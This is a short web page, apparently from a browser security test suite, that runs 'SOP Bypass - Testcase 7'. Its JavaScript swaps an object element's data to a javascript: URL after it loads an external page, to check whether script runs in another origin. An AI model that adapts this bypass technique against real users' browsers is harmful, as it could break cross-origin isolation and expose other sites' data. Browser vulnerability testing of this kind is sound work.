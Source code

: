 ```yaml
---
layout: default
title: SOP Bypass - Testcase 7
permalink: /sop/new/7
---
```


# SOP Bypass - Testcase 7

<input type="button" id="btn_test" class="test" value="Run Test Case" onclick="myfunction()">
<script>
function myfunction() {
    object = document.createElement("object"); 
    object.setAttribute("data", "https://web.archive.org/web/20180831120256/http://www.bing.com");
    document.body.appendChild(object);
    object.onload = function() {
        object.setAttribute("data", "javascript:alert(document.domain)");
        object.innerHTML = "foobar";
    }
}
</script>

**Note:**
If page displays an alert box displaying bing.com, your browser is vulnerable to SOP bypass.
